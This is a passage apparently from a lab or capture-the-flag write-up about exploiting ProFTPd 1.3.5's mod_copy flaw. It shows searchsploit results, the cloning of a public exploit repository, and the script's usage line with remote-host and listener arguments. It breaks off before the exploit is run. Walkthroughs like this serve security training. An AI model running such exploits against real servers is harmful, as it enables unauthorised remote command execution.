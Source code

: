 ```
```

Looking for `ProFTPd 1.3.5` vulnerability in searchsploit return this: 

```
searchsploit ProFTPd 1.3.5                                                                                                                          1 ⚙
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                 | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                       | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                   | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                 | linux/remote/36742.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I tried to use the exploit from searchsploit but it didn't work for me. I didn't try the Metasploit exploit. So i clone one from github that is from [thegingerninja](https://github.com/thegingerninja/ProFTPd_1_3_5_mod_copy_exploit).

```
git clone https://github.com/thegingerninja/ProFTPd_1_3_5_mod_copy_exploit.git                                                                      1 ⚙
Cloning into 'ProFTPd_1_3_5_mod_copy_exploit'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 11 (delta 1), reused 4 (delta 0), pack-reused 0
Receiving objects: 100% (11/11), done.
Resolving deltas: 100% (1/1), done.

cd ProFTPd_1_3_5_mod_copy_exploit
```

Run the exploit to understand how to use it: 

```
python2 exploit_proftd_1_3_5.py                                                          
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.

Usage: python exploit_proftd_1_3_5.py <RHOST> <SITEPATH> <LHOST> <LPORT>
```
